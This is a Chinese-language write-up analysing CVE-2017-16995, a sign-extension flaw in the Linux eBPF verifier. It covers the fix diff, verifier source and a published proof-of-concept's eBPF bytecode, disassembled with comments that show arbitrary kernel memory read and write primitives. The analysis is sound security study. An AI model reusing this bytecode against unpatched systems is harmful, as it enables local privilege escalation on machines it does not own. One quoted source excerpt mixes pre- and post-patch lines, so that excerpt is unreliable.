

# CVE-2017-16995

[漏洞简介](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-16995)，主要是BPF模块中的一个错误的符号扩展造成

首先看一下修复补丁，逻辑很简单，就是加入了对32位和64位数的不同处理，具体可以看[Linux Kernel Git仓库](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=95a762e2c8c942780948091f8f2a4f32fce1ac6f)，或者[Github](https://github.com/torvalds/linux/commit/95a762e2c8c942780948091f8f2a4f32fce1ac6f)，如下：

```git

diff --git a/kernel/bpf/verifier.c b/kernel/bpf/verifier.c
index 625e358..c086010 100644
--- a/kernel/bpf/verifier.c
+++ b/kernel/bpf/verifier.c
@@ -2408,7 +2408,13 @@ static int check_alu_op(struct bpf_verifier_env *env, struct bpf_insn *insn)
 			 * remember the value we stored into this reg
 			 */
 			regs[insn->dst_reg].type = SCALAR_VALUE;
-			__mark_reg_known(regs + insn->dst_reg, insn->imm);
+			if (BPF_CLASS(insn->code) == BPF_ALU64) {
+				__mark_reg_known(regs + insn->dst_reg,
+						 insn->imm);
+			} else {
+				__mark_reg_known(regs + insn->dst_reg,
+						 (u32)insn->imm);
+			}
 		}
 
 	} else if (opcode > BPF_END) {
```

和BPF相关的漏洞，先学习一下BPF相关知识

> Berkeley Packet Filter，缩写 BPF，是类Unix系统上数据链路层的一种原始接口
> 
> BPF支持“过滤”封包，BPF的过滤功能是以BPF虚拟机机器语言的解释器的形式实现的，这种语言的程序可以抓取封包数据，对封包中的数据采取算术操作，并将结果与常量或封包中的数据或结果中的测试位比较，根据比较的结果决定接受还是拒绝封包。
> 
>  --Wikipedia

`man bpf`中的例子：

```c
/* bpf+sockets example:
 * 1. create array map of 256 elements
 * 2. load program that counts number of packets received
 *    r0 = skb->data[ETH_HLEN + offsetof(struct iphdr, protocol)]
 *    map[r0]++
 * 3. attach prog_fd to raw socket via setsockopt()
 * 4. print number of received TCP/UDP packets every second
 */
int
main(int argc, char **argv)
{
    int sock, map_fd, prog_fd, key;
    long long value = 0, tcp_cnt, udp_cnt;

    map_fd = bpf_create_map(BPF_MAP_TYPE_ARRAY, sizeof(key),
                            sizeof(value), 256);
    if (map_fd < 0) {
        printf("failed to create map '%s'\n", strerror(errno));
        /* likely not run as root */
        return 1;
    }

    struct bpf_insn prog[] = {
        BPF_MOV64_REG(BPF_REG_6, BPF_REG_1),        /* r6 = r1 */
        BPF_LD_ABS(BPF_B, ETH_HLEN + offsetof(struct iphdr, protocol)),
                                /* r0 = ip->proto */
        BPF_STX_MEM(BPF_W, BPF_REG_10, BPF_REG_0, -4),
                                /* *(u32 *)(fp - 4) = r0 */
        BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),       /* r2 = fp */
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),      /* r2 = r2 - 4 */
        BPF_LD_MAP_FD(BPF_REG_1, map_fd),           /* r1 = map_fd */
        BPF_CALL_FUNC(BPF_FUNC_map_lookup_elem),
                                /* r0 = map_lookup(r1, r2) */
        BPF_JMP_IMM(BPF_JEQ, BPF_REG_0, 0, 2),
                                /* if (r0 == 0) goto pc+2 */
        BPF_MOV64_IMM(BPF_REG_1, 1),                /* r1 = 1 */
        BPF_XADD(BPF_DW, BPF_REG_0, BPF_REG_1, 0, 0),
                                /* lock *(u64 *) r0 += r1 */
        BPF_MOV64_IMM(BPF_REG_0, 0),                /* r0 = 0 */
        BPF_EXIT_INSN(),                            /* return r0 */
    };

    prog_fd = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, prog,
                            sizeof(prog), "GPL");

    sock = open_raw_sock("lo");

    assert(setsockopt(sock, SOL_SOCKET, SO_ATTACH_BPF, &prog_fd,
                      sizeof(prog_fd)) == 0);

    for (;;) {
        key = IPPROTO_TCP;
        assert(bpf_lookup_elem(map_fd, &key, &tcp_cnt) == 0);
        key = IPPROTO_UDP
        assert(bpf_lookup_elem(map_fd, &key, &udp_cnt) == 0);
        printf("TCP %lld UDP %lld packets0, tcp_cnt, udp_cnt);
        sleep(1);
    }

    return 0;
}
```

继续看漏洞相关的内核源码，漏洞出现于`check_alu_op`函数在opcode为`BPF_MOV`时的分支

相关资料
> `BPF_K`: a constant  
> `BPF_X`: index register
> 
> 

`check_alu_op`函数部分源码

```c
		if (BPF_SRC(insn->code) == BPF_X) {
			if (BPF_CLASS(insn->code) == BPF_ALU64) {
				/* case: R1 = R2 */
				 ...
			} else {
				/* R1 = (u32) R2 */
				...
			}
		} else {
			/* case: R = imm
			 * remember the value we stored into this reg
			 */
			regs[insn->dst_reg].type = SCALAR_VALUE;

			__mark_reg_known(regs + insn->dst_reg, insn->imm);
			
			if (BPF_CLASS(insn->code) == BPF_ALU64) {
				__mark_reg_known(regs + insn->dst_reg,
						 insn->imm);
			} else {
				__mark_reg_known(regs + insn->dst_reg,
						 (u32)insn->imm);
			}
		}
```

```c
/* Mark the unknown part of a register (variable offset or scalar value) as
 * known to have the value @imm.
 */
static void __mark_reg_known(struct bpf_reg_state *reg, u64 imm)
{
	reg->id = 0;
	reg->var_off = tnum_const(imm);
	reg->smin_value = (s64)imm;
	reg->smax_value = (s64)imm;
	reg->umin_value = imm;
	reg->umax_value = imm;
}
```

看一下insn的数据结构发现imm是有符号的

```c
struct bpf_insn {
	__u8	code;		/* opcode */
	__u8	dst_reg:4;	/* dest register */
	__u8	src_reg:4;	/* source register */
	__s16	off;		/* signed offset */
	__s32	imm;		/* signed immediate constant */
};
```

所以漏洞就出现在了有符号32位到无符号64位的扩展上，有可能造成`var_off`、`umin_value`、`umax_value`变成一个极大的值.

> \- Register width increases from 32-bit to 64-bit:
> 
> Still, the semantics of the original 32-bit ALU operations are preserved via 32-bit subregisters. All eBPF registers are 64-bit with 32-bit lower subregisters that **zero-extend** into 64-bit if they are being written to. That behavior maps directly to x86_64 and arm64 subregister definition, but makes other JITs more difficult.
> 
> 摘自[官方文档](https://www.kernel.org/doc/Documentation/networking/filter.txt)

说好的zero-extend呢？？

所以这个应该如何利用呢？

看一下Vitaly Nikolenko([@vnik5287](https://twitter.com/vnik5287))公布的PoC，其核心在于

```c
char *__prog = 	"\xb4\x09\x00\x00\xff\xff\xff\xff"
		"\x55\x09\x02\x00\xff\xff\xff\xff"
		"\xb7\x00\x00\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x18\x19\x00\x00\x03\x00\x00\x00"
		"\x00\x00\x00\x00\x00\x00\x00\x00"
		"\xbf\x91\x00\x00\x00\x00\x00\x00"
		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
		"\x07\x02\x00\x00\xfc\xff\xff\xff"
		"\x62\x0a\xfc\xff\x00\x00\x00\x00"
		"\x85\x00\x00\x00\x01\x00\x00\x00"
		"\x55\x00\x01\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x79\x06\x00\x00\x00\x00\x00\x00"
		"\xbf\x91\x00\x00\x00\x00\x00\x00"
		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
		"\x07\x02\x00\x00\xfc\xff\xff\xff"
		"\x62\x0a\xfc\xff\x01\x00\x00\x00"
		"\x85\x00\x00\x00\x01\x00\x00\x00"
		"\x55\x00\x01\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x79\x07\x00\x00\x00\x00\x00\x00"
		"\xbf\x91\x00\x00\x00\x00\x00\x00"
		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
		"\x07\x02\x00\x00\xfc\xff\xff\xff"
		"\x62\x0a\xfc\xff\x02\x00\x00\x00"
		"\x85\x00\x00\x00\x01\x00\x00\x00"
		"\x55\x00\x01\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x79\x08\x00\x00\x00\x00\x00\x00"
		"\xbf\x02\x00\x00\x00\x00\x00\x00"
		"\xb7\x00\x00\x00\x00\x00\x00\x00"
		"\x55\x06\x03\x00\x00\x00\x00\x00"
		"\x79\x73\x00\x00\x00\x00\x00\x00"
		"\x7b\x32\x00\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x55\x06\x02\x00\x01\x00\x00\x00"
		"\x7b\xa2\x00\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x7b\x87\x00\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00";
```
这段BPF Opcodes，需要找一个反汇编工具。

试了好几个seccomp bpf相关的反汇编工具都不好使，最后发现这opcode格式都和seccomp bpf的不一样，WTF？

翻了好多资料终于在阅读[官方文档](https://www.kernel.org/doc/Documentation/networking/filter.txt)时候搞明白了，这应该是bpf和ebpf的区别，然后要找一下ebpf的反汇编工具，这里使用了rust写的工具[ebpf-disasm](https://github.com/badboy/ebpf-disasm).

```
     0:  mov32  r9, 0xffffffff
     1:  jne    r9, 0xffffffff, +0x2 ; 检测漏洞是否存在，若存在则应当 r9 != 0xffffffff
     2:  mov64  r0, 0x0
     3:  exit
     4:  lddw   r9, 0x3              ; r9 = 3
     6:  mov64  r1, r9               ; r1 = r9
     7:  mov64  r2, r10              ; r2 = r10(rbp)
     8:  add64  r2, 0xfffffffc       ; r2 += 0xfffffffc
     9:  stw    [r10+0xfffc],   0x0  ; init stack
    10:  call   0x1                  ; BPF_FUNC_map_lookup_elem: map_fd=3, key=0
    11:  jne    r0, 0x0,    +0x1
    12:  exit
    13:  ldxdw  r6, [r0+0x0]         ; r6 = map[0]
    14:  mov64  r1, r9
    15:  mov64  r2, r10
    16:  add64  r2, 0xfffffffc
    17:  stw    [r10+0xfffc],   0x1
    18:  call   0x1                  ; BPF_FUNC_map_lookup_elem: map_fd=3, key=1
    19:  jne    r0, 0x0,    +0x1
    20:  exit
    21:  ldxdw  r7, [r0+0x0]         ; r7 = map[1]
    22:  mov64  r1, r9
    23:  mov64  r2, r10
    24:  add64  r2, 0xfffffffc
    25:  stw    [r10+0xfffc],   0x2
    26:  call   0x1                  ; BPF_FUNC_map_lookup_elem: map_fd=3, key=2
    27:  jne    r0, 0x0,    +0x1
    28:  exit
    29:  ldxdw  r8, [r0+0x0]         ; r8 = map[2]
    30:  mov64  r2, r0               ; r2 = r0
    31:  mov64  r0, 0x0              ; r0 = 0
    32:  jne    r6, 0x0,    +0x3     ; jump if map[0] != 0
    33:  ldxdw  r3, [r7+0x0]
    34:  stxdw  [r2+0x0],   r3       ; map[2] = *(map[1])
    35:  exit
    36:  jne    r6, 0x1,    +0x2     ; jump if map[0] != 1
    37:  stxdw  [r2+0x0],   r10      ; map[2] = rbp
    38:  exit
    39:  stxdw  [r7+0x0],   r8       ; *(map[1]) = map[2]
    40:  exit
```

刚开始完全不知道在干什么，根据[官方文档](https://www.kernel.org/doc/Documentation/networking/filter.txt)的*Understanding eBPF verifier messages*这一部分了解了eBPF程序的大概逻辑，再看以上代码就不难了

读完代码逻辑发现，wtf？这也太牛逼了吧，为什么写出来这样的代码内核会傻fufu地去执行呢？想起来eBPF有一个verifier的过程，难道是漏洞导致verifier过程在第三行exit的时候就终止了？但是按照[官方文档](https://www.kernel.org/doc/Documentation/networking/filter.txt)的说法，如果程序有执行不到的路径也会无法通过检查的啊（什么？你还相信官方文档？）于是决定去看一下verifier的整体流程